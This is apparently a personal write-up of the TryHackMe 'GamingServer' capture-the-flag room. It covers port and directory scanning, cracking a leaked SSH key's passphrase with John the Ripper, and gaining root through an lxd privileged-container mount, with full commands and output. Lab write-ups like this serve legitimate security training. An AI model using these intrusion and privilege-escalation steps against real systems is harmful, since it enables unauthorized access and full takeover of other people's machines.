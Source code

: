 # GamingServer

[https://tryhackme.com/r/room/gamingserver](https://tryhackme.com/r/room/gamingserver)

### **USER_FLAG{ } :**  


1. we get the target ip which is 10.10.73.9
2. after doing an port scan  → 

`nmap -sC -sV 10.10.73.9 >> nmap.txt`  


![alt text](https://github.com/Ruhanyat-994/ctf-capture_the_flag-/blob/master/ctf%20%7Bpersonal_go%7D/TryHackMe-Roadmap-main/Photos/game_server-1.png?raw=true)

1. there are only two ports open ssh and http
2. if we go to that IP we can find a website

[![alt text](https://github.com/Ruhanyat-994/ctf-capture_the_flag-/blob/master/ctf%20%7Bpersonal_go%7D/TryHackMe-Roadmap-main/Photos/game_server-2.png?raw=true)
1. and in the dev tools we can have a potential user name which is john
2. for finding hidden files and directories we can use 

`gobuster dir -u [http://10.10.73.9](http://10.10.73.9/) -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt -x .html,.php,.txt`

1. we found some directories

[![alt text](https://github.com/Ruhanyat-994/ctf-capture_the_flag-/blob/master/ctf%20%7Bpersonal_go%7D/TryHackMe-Roadmap-main/Photos/game_server-3.png?raw=true)
1. `/about.html (Status: 200)
/about.php (Status: 200)
/index.html (Status: 200)
/robots.txt (Status: 200)
/uploads (Status: 301)
/myths.html (Status: 200)
/secret (Status: 301)`
2. In the `/secret` directory, we have a file named `secretKey` which contains a private key. We have SSH installed on the target machine. This could be the private SSH key of user `john`.
3. 

![alt text](https://github.com/Ruhanyat-994/ctf-capture_the_flag-/blob/master/ctf%20%7Bpersonal_go%7D/TryHackMe-Roadmap-main/Photos/game_server-4.png?raw=true)

1. but this thing is password protected
2. We also have a `/uploads` which contains some interesting files.
    
    ![https://digitalpress.fra1.cdn.digitaloceanspaces.com/iozzwn2/2023/01/g-uploads.png](https://digitalpress.fra1.cdn.digitaloceanspaces.com/iozzwn2/2023/01/g-uploads.png)
    
    Of course we need to check the `meme.jpg` first :D
    
    ![https://digitalpress.fra1.cdn.digitaloceanspaces.com/iozzwn2/2023/01/g-meme.png](https://digitalpress.fra1.cdn.digitaloceanspaces.com/iozzwn2/2023/01/g-meme.png)
    
    We also have a "The Hacker Manifesto" which looks pretty neat!
    
    ![https://digitalpress.fra1.cdn.digitaloceanspaces.com/iozzwn2/2023/01/g-manifesto.png](https://digitalpress.fra1.cdn.digitaloceanspaces.com/iozzwn2/2023/01/g-manifesto.png)
    
    There is another file named `dict.lst` which looks like a wordlist. Let's download this to our system. We can use this wordlist to crack the private key!
    
3. User Shell
    
    We can use John the Ripper tool to crack the password for the private key of user `john`.
    
    We need to convert the `secretKey` into a format that John can understand.We will be using `ssh2john.py` for this.
    
    I'll save the output in `hash.txt` and then we can crack the password with the wordlist we found using John the Ripper.
    
 ![Untitled](https://github.com/Ruhanyat-994/ctf-capture_the_flag-/blob/master/ctf%20%7Bpersonal_go%7D/TryHackMe-Roadmap-main/Photos/game_server-8.png?raw=true)    
    
    We got the password for the private key. Now we can login via SSH and read the user flag!
    
4. Now we ave to use  `ssh -i secretKey [john@10.10.215.18](mailto:john@10.10.215.18)`

![Untitled](https://github.com/Ruhanyat-994/ctf-capture_the_flag-/blob/master/ctf%20%7Bpersonal_go%7D/TryHackMe-Roadmap-main/Photos/game_server-9.png?raw=true)
![Untitled](https://github.com/Ruhanyat-994/ctf-capture_the_flag-/blob/master/ctf%20%7Bpersonal_go%7D/TryHackMe-Roadmap-main/Photos/game_server-10.png?raw=true)
in this form we need to give te secretKey 600 chmod permissio (600 permissions means that **only the owner of the file has full read and write access to it**.)

ssh private key needs 600  permission

### **ROOT_FLAG{ }:**

1. We have a shell as user `john` and now we need to find a way to escalate our privileges to root.

If we use the `id` command, we can see that the user `john` is a part of the `lxd` group.
[
![Untitled](https://github.com/Ruhanyat-994/ctf-capture_the_flag-/blob/master/ctf%20%7Bpersonal_go%7D/TryHackMe-Roadmap-main/Photos/game_server-11.png?raw=true)

LXD is a lightweight container hypervisor which allows to run linux containers. If a member is part of the `lxd` group, it can escalate its privileges to user `root` irrespective of the fact that it has sudo permissions or not.

I found [this](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation?ref=infosecarticles.com) guide related to <b>`lxd` privilege escalation</b>. We need to build an `alpine` image and then we can mount the `/root` directory of  the target machine to the `/mnt` directory of a `lxd` container.

1. First we need to build the image in our own machine:
    
    ```
    git clone https://github.com/saghul/lxd-alpine-builder.git
    cd lxd-alpine-builder
    ./build-alpine
    
    ```
    
    This will create a `.tar.gz` compressed image similar to this:
    
    ![Untitled](https://github.com/Ruhanyat-994/ctf-capture_the_flag-/blob/master/ctf%20%7Bpersonal_go%7D/TryHackMe-Roadmap-main/Photos/game_server-12.png?raw=true)
    
    Next we need to copy the compressed file to the target machine and then import the image using `lxc`.
    
    ```
    john@exploitable:~$ lxc image import ./alpine-* --alias myimage
    Image imported with fingerprint: cd73881adaac667ca3529972c7b380af240a9e3b09730f8c8e4e6a23e1a7892b
    ```
    
    ```
    john@exploitable:~$ lxc image list
    +---------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
    |  ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          |  ARCH  |  SIZE  |         UPLOAD DATE         |
    +---------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
    | myimage | cd73881adaac | no     | alpine v3.13 (20210218_01:39) | x86_64 | 3.11MB | Jan 7, 2023 at 6:10pm (UTC) |
    +---------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
    john@exploitable:~$ lxc init myimage image -c security.privileged=true
    Creating image
    ```
    
    ```
    john@exploitable:~$ lxc config device add image mydevice disk source=/ path=/mnt/root recursive=true
    Device mydevice added to image
    ```
    
    ```
    john@exploitable:~$ lxc start image
    ```
    
    Our container has been created. Now we can simply start the container and read our final flag in the `/mnt/root/root` directory!
    
    ```
    john@exploitable:~$ lxc exec image /bin/sh
    ~ # id
    uid=0(root) gid=0(root)
    ~ # cd /mnt/root/root/
    /mnt/root/root # cat root.txt
    ********************************
    
    ```
    
2. In the middle section you have to run a simple http server and the you have to wget with your machines ip address tun0 in the target machine.s

![Untitled](https://github.com/Ruhanyat-994/ctf-capture_the_flag-/blob/master/ctf%20%7Bpersonal_go%7D/TryHackMe-Roadmap-main/Photos/game_server-12.png?raw=true)

at last !

![Untitled](https://github.com/Ruhanyat-994/ctf-capture_the_flag-/blob/master/ctf%20%7Bpersonal_go%7D/TryHackMe-Roadmap-main/Photos/game_server-14.png?raw=true)

### **Alhumdulillah!**

